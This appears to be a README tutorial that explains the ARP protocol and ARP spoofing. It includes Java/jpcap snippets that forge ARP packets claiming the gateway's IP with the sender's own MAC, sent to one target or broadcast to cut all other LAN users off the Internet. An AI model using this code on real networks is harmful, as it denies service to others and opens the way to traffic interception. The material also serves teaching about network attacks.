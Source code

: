 # ARPAttackInJava
###Outline

The Address Resolution Protocol (ARP) is a telecommunication protocol used for resolution of network layer addresses into link layer address. It's a critical function in multiple-access networks.

Nowadays, IP and Ethernet are widely used in our life. Therefore, ARP is usually used for mapping the IPv4 address to an Ethernet address (also named a MAC address).In IPv6, the functionality of ARP is provided by the Neighbor Discovery Protocol (NDP).

More Info: https://en.wikipedia.org/wiki/Address_Resolution_Protocol

###Important Feature

ARP is request and reply protocol that runs encapsulated by the line protocol. It is communicated within the boundaries of a single network, never routed across internetwork nodes. This property places ARP into the Link Layer of the Internet Protocol Suite, while in the Open Systems Interconnection (OSI) model, it is often described as residing between Layers 2 and 3, being encapsulated by Layer 2 protocols. However, ARP was not developed in the OSI framework.

###Example

For example, Yasic and Esir are both in a office local area network by wireless LAN and a wifi router which provide a gateway to connect the Internet outside.Yasic knows his PC has a IPv4 address "192.168.1.100", and Esir's PC has a IPv4 address "192.168.1.101". Now if Yasic wants to send message to Esir, he need to know the MAC address of Esir. 

First, Yasic would try to look up the MAC address of "192.168.1.101" in his PC's cached ARP table.

If the MAC address is not found, then Yasic will send a broadcast ARP message to request a answer for "192.168.1.101". Then Esir will receive this broadcast and send an ARP reply to Yasic which contains Esir's PC's MAC address.

###ARP Attack --- ARP Spoofing

Now let's think about the ARP attack. There are many techniques of ARP attack, but here I just show ARP spoofing which can make other PC in the local network could not connect to the Internet correctly.

Let's think of the situation in example, what if Yasic tell Esir that the MAC address of the default gateway is Yasic's MAC address. Obviously Esir will send all her Internet message to the "default gateway" and fail to connect the Internet finally. And, If Yasic  send the broadcast which declare that the default gateway's MAC address is his, all the computer will update their ARP table to regard the new "default gateway", then nobody could connect the Internet except Yasic finally.

###Java Realization

#####Preparation

To realize the ARP attack, we need to create the ARP message in the network layer and package the message in Ethernet frame.

Generally speaking, to accomplish this goal is hard for the network layer is protected by the operating system and unless we have the super privileges can we touch the network layer and control the frame and the message.

So now we will need to get help from some mature library functions, such as Libpcap, and jpcap.jar which is write in Java. Before we create our program, we need to put the jpcap.dll to java library path.

You can find the java library path by this word.

    System.out.println(System.getProperty("java.library.path"));

Then I don't want to teach you how to add the jpcap.jar to your projects, because as a coder, you should know it or how to resolve it by yourself.

Attack Type

We can make two type of ARP attack in the local network.

- Determine the target by MAC address and attack the target
- Send the broadcast to the local network and make all other user offline

#####Programming

- Get the net interface device

    		jpcap.NetworkInterface[] networkInterfaces = JpcapCaptor.getDeviceList();
    		jpcap.NetworkInterface networkDevice = networkInterfaces[1];
    		JpcapSender sender = JpcapSender.openDevice(networkDevice);

- Create ARP message

            ARPPacket arpPacket = new ARPPacket();
            arpPacket.hardtype = ARPPacket.HARDTYPE_ETHER;
            arpPacket.prototype = ARPPacket.PROTOTYPE_IP;
            arpPacket.operation = ARPPacket.ARP_REQUEST;
            arpPacket.hlen = 6;
            arpPacket.plen = 4;
            arpPacket.target_hardaddr = getMac("ff-ff-ff-ff-ff-ff");//or target MAC address
            arpPacket.target_protoaddr = destinationIp.getAddress();
            arpPacket.sender_hardaddr = getMac(arpBean.getLocalMac());
            arpPacket.sender_protoaddr = gateWayIp.getAddress();

- Create Ethernet frame

    		EthernetPacket ethernetPacket = new EthernetPacket();
    		ethernetPacket.frametype = EthernetPacket.ETHERTYPE_ARP;
    		ethernetPacket.dst_mac = getMac("ff-ff-ff-ff-ff-ff");//or target MAC address
    		ethernetPacket.src_mac = getMac(arpBean.getLocalMac());
    		arpPacket.datalink = ethernetPacket;

- Send message

    		sender.sendPacket(arpPacket);
